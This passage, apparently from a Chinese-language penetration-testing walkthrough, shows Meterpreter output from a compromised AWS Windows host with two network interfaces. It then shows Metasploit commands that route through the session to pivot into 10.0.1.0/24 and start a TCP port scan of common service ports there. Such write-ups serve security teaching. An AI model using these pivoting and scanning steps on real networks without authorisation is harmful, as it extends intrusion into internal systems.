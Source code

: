 ```
MTU          : 1280
IPv6 Address : fe80::100:7f:fffe
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 13
============
Name         : AWS PV Network Device #0
Hardware MAC : 0a:14:2c:84:e9:d2
MTU          : 9001
IPv4 Address : 10.0.0.9
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::3053:3068:2bf6:272c
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a00:9
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 20
============
Name         : AWS PV Network Device #1
Hardware MAC : 0a:17:b5:cb:d1:ac
MTU          : 9001
IPv4 Address : 10.0.1.9
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::2189:c3cf:68e3:aab9
IPv6 Netmask : ffff:ffff:ffff:ffff::
```
同时，可以看出这个机器具有多个网卡且横跨在2个网段中(10.0.0.9/24和10.0.1.9/24)。因此，我们也可以利用这个机器做跳板继续渗透10.0.1.0/24这段里的机器。
```
meterpreter > run get_local_subnets

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 10.0.0.0/255.255.255.0
Local subnet: 10.0.1.0/255.255.255.0
meterpreter > background
[*] Backgrounding session 2...
msf exploit(handler) > route add 10.0.1.0 255.255.255.0 2
[*] Route added
msf exploit(handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.1.0           255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
```
利用`auxiliary/scanner/portscan/tcp`去扫描`10.0.1.0/24`段，如下：
```    
msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 10.0.1.0/24
RHOSTS => 10.0.1.0/24
msf auxiliary(tcp) > set PORTS 22,80,3306,445,3389,139,1433
```